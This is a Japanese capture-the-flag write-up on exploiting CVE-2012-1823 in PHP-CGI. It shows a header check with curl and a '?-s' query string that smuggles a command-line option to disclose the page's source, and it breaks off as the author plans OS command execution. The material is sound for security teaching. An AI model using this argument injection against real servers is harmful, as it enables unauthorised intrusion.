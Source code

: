 ## 問題

与えらえたURLにアクセスすると、時刻のようなものが表示される。

![Image 1](ksnctf_q12_1.jpg)

## 解法

リロードすると、値が変わる。

![Image 2](ksnctf_q12_2.jpg)

`2012:1823`で検索すると、`CVE-2012-1823`というPHPの脆弱性がヒットする。

`curl`でレスポンスヘッダーを見ると、確かにPHPが使われているようだ。

```bash
$ curl https://ctfq.u1tramarine.blue/q12/ -i
HTTP/2 200 
server: nginx
date: Tue, 19 Sep 2023 12:16:42 GMT
content-type: text/html
x-powered-by: PHP/5.4.1
```

脆弱性対策データベースによると、

> PHP には、CGI として使用される設定において query string をコマンドラインオプションとして認識してしまう脆弱性が存在します。

だそうです。

[JVNDB-2012-002235 - JVN iPedia - 脆弱性対策情報データベース](https://jvndb.jvn.jp/ja/contents/2012/JVNDB-2012-002235.html)

PHPのコマンドラインオプションは、[PHP: オプション - Manual](https://www.php.net/manual/ja/features.commandline.options.php)から、
調べることが、できる。

試しにソースコードを出力する`-s`オプションをurlにつけた、`https://ctfq.u1tramarine.blue/q12/?-s`でアクセスしてみると、
ソースコードが開示された。

```php
<?php

    //  Flag is in this directory.

    date_default_timezone_set('UTC');
    
    $t = '2012:1823:20:';
    $t .= date('y:m:d:H:i:s');
    for($i=0;$i<4;$i++)
        $t .= sprintf(':%02d',mt_rand(0,59));
?>
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8">
    <title>Clock</title>
    <style>
      body
      {
        background: black;
      }
      p
      {
        color: red;
        font-size: xx-large;
        font-weight: bold;
        text-align: center;
        margin-top: 200px;
      }
    </style>
  </head>
  <body>
    <p><?php echo $t; ?></p>
  </body>
</html>
```

どうやら、このソースコードがあるディレクトリにFLAGがある様子。

指定したPHPのコードが実行できるようなので、PHPからOSのコマンドを実行する方法を調べて見ると、
`exec`, `system`, `passthru`あたりがヒットするので、これらを使う。